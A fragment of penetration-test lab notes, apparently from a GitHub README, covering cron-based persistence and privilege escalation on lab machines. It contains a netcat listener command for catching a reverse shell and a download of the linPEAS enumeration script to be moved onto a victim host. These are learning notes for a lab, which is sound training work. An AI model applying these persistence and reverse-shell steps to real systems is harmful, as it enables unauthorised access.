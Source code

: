```
/bin/bash
```

number you want to use for VIC2 persistence

#### (THIS PORT NUMBER IS ONLY FOR SOC4 PERSISTENCE)
Create a crontab using python3 shortest with your port 
![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/4b84efee-c919-4598-9442-c27375f08abb)

## Section 3: PRIV ESC ON SOC4

Set up another listner over DEFAULT port  (VIC 2 Persisitence)

[14:02] DAY 12


### (ATTACKER)

```
nc -lvp 55557 
```
[NEW PORT I SET VIC ON PFSENSE]

### (ATTACKER) (NEW TERM)

```
cd internal
```

```
cd 192.168.1.102
```

```
curl -L http://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh 
```
[1:33] DAY 12

```
curl -L http://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | tee linpeas.sh
```

```
ls 
```

This is a automation script that we will move to the victim this info could be found on hacktricks
**Checklist Linux Privesc escalation LinPEAS**

```
cat linpeas.sh| less
```

**(CHECK THEN EXIT)**

```
ls
```
